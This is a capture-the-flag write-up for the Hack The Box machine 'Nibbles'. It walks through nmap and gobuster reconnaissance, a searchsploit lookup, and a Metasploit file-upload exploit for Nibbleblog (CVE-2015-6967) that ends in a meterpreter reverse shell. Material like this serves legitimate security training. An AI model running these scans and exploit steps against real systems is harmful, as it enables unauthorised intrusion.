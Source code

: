 # Nibbles | HTB
### Difficulty : Easy
-------------------------------

Let's start with nmap scan to find open ports and services within the system:

```bash
nmap -p- -T4 -A 10.10.10.75 -oN nibbles.nmap
```

-p- scans all ports instead the 1000 common ports scan defaultivy way.

-T4  - increase the spped of the scan.

-A  - aggressive scan to gather more information about the system.

-oN - saves the output to a file.


Results:

```bash
Nmap scan report for 10.10.10.75
Host is up (0.12s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=3/18%OT=22%CT=1%CU=33777%PV=Y%DS=2%DC=T%G=Y%TM=65F8
OS:88D9%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10D%TI=Z%II=I%TS=8)SEQ(S
OS:P=100%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)SEQ(SP=101%GCD=1%ISR=10C%TI=Z%II
OS:=I%TS=8)SEQ(SP=102%GCD=1%ISR=10C%TI=Z%TS=8)OPS(O1=M53CST11NW7%O2=M53CST1
OS:1NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=71
OS:20%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M5
OS:3CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4
OS:(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%
OS:F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%
OS:T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%R
OS:ID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   230.60 ms 10.10.14.1
2   230.77 ms 10.10.10.75

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 515.57 seconds
```

I'll try to find any intersting directory within the systen with:

```bash
└─# gobuster dir -u http://10.10.10.75 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

-u - the traget url.

-w - the wordlist to scan the system with.

While scanning, I navigated to the address within the browser. I decided to view the source code.


![image](https://cdn-images-1.medium.com/max/1000/1*byJhHlMqipaqplu6OGRR3w.png)


It sends us to /nibbleblog/.


![image](https://cdn-images-1.medium.com/max/1000/1*bXNAX8k7NVW5eWed7Iu8nw.png)


The previous gobuster scan didn't find any directory, but after we found the blog, let's scan another time but with the /nibbleblog/.

Results:

![image](https://cdn-images-1.medium.com/max/1000/1*8W4FF3LwC2N5AqNdcplJKA.png)


After traveling betweem the directories within /admin, I didn't find anything there. 
But there is README file that includes the version of the nibbleblog service.


![image](https://cdn-images-1.medium.com/max/1000/1*Sw-slPkN3-mQNnwhOMbfnw.png)


Let's check if this service at that version is vulnerable.

```bash
searchsploit nibbleblog   
----------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                               |  Path
----------------------------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                                       | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                        | php/remote/38489.rb
----------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Use metasploit to try the Arbitrary File Upload, but after I use "options" to understand what info I need to provide 
to run the exploit, it demends username and password. At that moment, I don't have any credentials.

After some research I found a github that includes the exploit with an example how to use it:

https://github.com/dix0nym/CVE-2015-6967


![image](https://cdn-images-1.medium.com/max/1000/1*3AEzPOCvVD08Rq76Zpms4Q.png)


I decided to provide the path, username and password inside metasploit and then I got meterpreter shell

On metasploit:

```bash
set lhost <your-ip>

set rhost <target=machine>

set targeturi /nibbleblog/

run
```

![image](https://cdn-images-1.medium.com/max/1000/1*B4Bn9ppeAtkNYmhTibOJrA.png)


















































